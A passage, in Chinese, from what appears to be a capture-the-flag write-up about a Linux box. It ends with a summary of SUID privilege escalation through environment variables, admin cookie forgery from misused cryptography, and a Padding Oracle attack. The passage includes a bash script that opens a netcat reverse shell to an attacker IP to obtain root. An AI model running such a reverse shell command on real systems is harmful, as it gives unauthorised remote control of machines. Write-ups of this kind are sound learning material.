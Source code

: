 #### 方法二：
cat 内容为

```
#!/bin/bash
/home/mitsos/netcat -e /bin/bash 10.10.14.7 1233
```

![8](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/03-09/8.PNG)

即可获得一个root shell

## 总结

学习到了一种新的suid提权方式，虽然有suid权限的elf程序不`nmap|vim|find|bash|more|less|nano|cp`这些程序其中的任何一种，但是通过添加环境变量，可以顺带执行shell脚本。

这个突破防线的方式，通过伪造cookies，是由于密码算法使用不当，导致攻击者可以猜测出admin的cookies，从而登陆web。

Padding Oracle Attack，利用条件很苛刻。

也许是我对密码学的东西知之甚少。不知道在实际攻击过程中，这种方式是否常见。
